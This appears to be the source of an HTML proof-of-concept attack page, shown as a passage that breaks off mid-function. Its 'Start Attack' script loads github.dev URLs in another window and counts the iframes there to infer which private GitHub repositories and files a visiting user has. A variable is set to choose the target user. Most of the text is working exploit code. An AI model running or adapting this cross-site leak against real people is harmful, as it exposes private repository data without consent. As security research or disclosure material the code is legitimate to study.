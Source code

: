       }
      button{
          background: #ff4500;
          color: white;
          border: none;
          border-radius: 20px;
          height: 30px;
          padding: 8px;
          font-weight: bold;
          display: block;
          position: relative;
          width: 520px;
          font-size: 15px;
      }
    </style>
  </head>
  <body>
    <div>
      <button onclick="attack();">Start Attack</button>
      <p>
        Dear user, <span id="user"></span>. Here are your private repositories:
      </p>
      <div id="repos" class="repos"></div>
    </div>

    <script type="text/javascript">
      var win;
      // Change this variable to the user you want to leak the private repositories
      var user = 'mr-medi';
      var repositoriesToCheck = ['mi-web', 'not-found'];
      var files = ['metallica.ttf', 'index.html', 'test.txt', 'robots.txt'];

    /*
      Function to check if a file in a private repository exist by counting the iframes.
      If 2 iframes are loaded means the file does not exists.
      If 1 iframe, then the file exists in the repository.
      If 0 iframes, then the repository does not exists.
    */
    async function existsFile(url)
    {
      win.location = url;
      // Wait for the page to load
      await setTimeout(() =>
      {
        // Read the number of iframes loaded
        var iframesCount = win.length;
        var message = "";

        if (iframesCount == 0)
        {
          message = "[ - ] " + iframesCount + " iframes - Repository doesn't exists in -> " + url;
        }
        else
        {
          var message = iframesCount >= 2 ? "[ - ] " + iframesCount + " iframes - NOT FOUND -> " + url : "[ + ] "+ iframesCount +" iframes - FOUND! -> " + url;

          if (iframesCount == 1)
          {
            let urlRepo = url.replace("https://github.dev", "https://github.com")
            let divRepos = document.getElementById("repos");
            let pElement = document.createElement("p");
            pElement.textContent = urlRepo;
            divRepos.appendChild(pElement);
          }